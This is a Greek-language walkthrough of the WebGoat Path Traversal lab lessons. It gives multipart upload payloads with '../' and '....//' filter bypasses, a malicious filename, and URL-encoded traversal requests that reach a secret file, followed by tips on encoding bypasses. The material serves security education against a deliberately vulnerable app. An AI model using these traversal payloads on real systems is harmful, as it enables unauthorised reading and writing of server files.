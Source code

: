 
# 🛡️ Path Traversal (A1)

Εκπαιδευτικό υλικό για την κατανόηση και εκμετάλλευση ευπαθειών τύπου **Path Traversal** μέσω αρχείων ή παραμέτρων HTTP.

---

## 📘 Μάθημα 2 – Path Traversal κατά την αποστολή αρχείων

**🎯 Στόχος:** Αποστολή εικόνας προφίλ *εκτός* του φακέλου `{username}`.

**📚 Επεξήγηση:** Το πεδίο `fullName` χρησιμοποιείται απευθείας για να δημιουργηθεί η διαδρομή αποθήκευσης αρχείου, χωρίς σωστή απολύμανση (sanitization). Έτσι, μπορεί να γίνει χρήση της ακολουθίας `../`.

### 📦 Παράδειγμα:
```
-----------------------------27260332916296986533744447080
Content-Disposition: form-data; name="fullName"

../test
```

---

## 📘 Μάθημα 3 – Παράκαμψη απολύμανσης

**🎯 Στόχος:** Να παρακάμψεις τον μηχανισμό `fullName.replace("../", "")`.

**📚 Επεξήγηση:** Η απλή αντικατάσταση του `../` δεν καλύπτει περιπτώσεις όπως `....//`, επιτρέποντας και πάλι path traversal.

### 📦 Παράδειγμα:
```
-----------------------------22445278214949939952398157170
Content-Disposition: form-data; name="fullNameFix"

....//test
```

---

## 📘 Μάθημα 4 – Path Traversal μέσω ονόματος αρχείου

**🎯 Στόχος:** Αποστολή αρχείου με όνομα που περιέχει `../`, ώστε να αποθηκευτεί σε ανώτερο φάκελο.

**📚 Επεξήγηση:** Αν το όνομα αρχείου (filename) δεν καθαρίζεται σωστά, μπορεί να επιτρέψει την αποθήκευση αρχείων έξω από τον επιτρεπόμενο κατάλογο.

### 📦 Παράδειγμα:
```
-----------------------------1740053938349190302459631647
Content-Disposition: form-data; name="uploadedFileRemoveUserInput"; filename="../myfile.txt"
Content-Type: text/plain
```

---

## 📘 Μάθημα 5 – Ανάκτηση άλλων αρχείων με Path Traversal

**🎯 Στόχος:** Ανάκτηση αρχείων εκτός φακέλου μέσω παραμέτρων URL.

### 🔎 Αρχικό αίτημα:
```
GET http://XXXusernameXXX:8080/WebGoat/PathTraversal/random-picture
```

### 📥 Απόκριση:
```http
HTTP/1.1 200 OK
Location: /PathTraversal/random-picture?id=4.jpg
Content-Type: image/jpeg
...
```

### 🔁 Αίτημα με `id=4.jpg`:
```
GET http://XXXusernameXXX:8080/WebGoat/PathTraversal/random-picture?id=4.jpg
```

### 📤 Απόκριση:
```
C:\Users\XXXusernameXXX\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\1.jpg,...
```

> 🔍 **Συμπέρασμα**: Επιστρέφει καταλόγους αρχείων — δυνατότητα για εξερεύνηση.

---

### 🧪 Προσπάθεια διαφυγής από τον φάκελο:
```
GET http://XXXusernameXXX:8080/WebGoat/PathTraversal/random-picture?id=../../path-traversal-secret
```

### ❌ Απόκριση:
```
Illegal characters are not allowed in the query params
```

---

### ✅ Επιτυχής απόπειρα με URL encoding:
```
GET http://XXXusernameXXX:8080/WebGoat/PathTraversal/random-picture?id=%2E%2E%2F%2E%2E%2Fpath-traversal-secret
```

### 🎉 Απόκριση:
```
You found it submit the SHA-512 hash of your username as answer
```

---

## 🧾 Τελικό Βήμα: Υπολογισμός SHA-512

Χρησιμοποίησε την παρακάτω εντολή:
```
$ printf XXXusernameXXX | sha512sum
```

### ✅ Παράδειγμα εξόδου:
```
4c5aab6d6999943bac2b9e7acca349c0c7fce12761a4798062031a0f40a08a3f4011f3b09915f868fe7966c401316951b7669f5d54d3c67774e3a63c3040c9a6  -
```

---

## 🧠 Συμβουλές για Εκπαιδευόμενους:

- Πάντα να δοκιμάζεις διαφορετικές παραλλαγές του `../`, όπως `....//`, `%2E%2E%2F`.
- Προσπάθησε να προκαλέσεις directory listing για να αποκαλύψεις επιπλέον πληροφορίες.
- Δοκίμασε να παρακάμψεις ελέγχους χρησιμοποιώντας τεχνικές URL encoding ή double encoding.

---
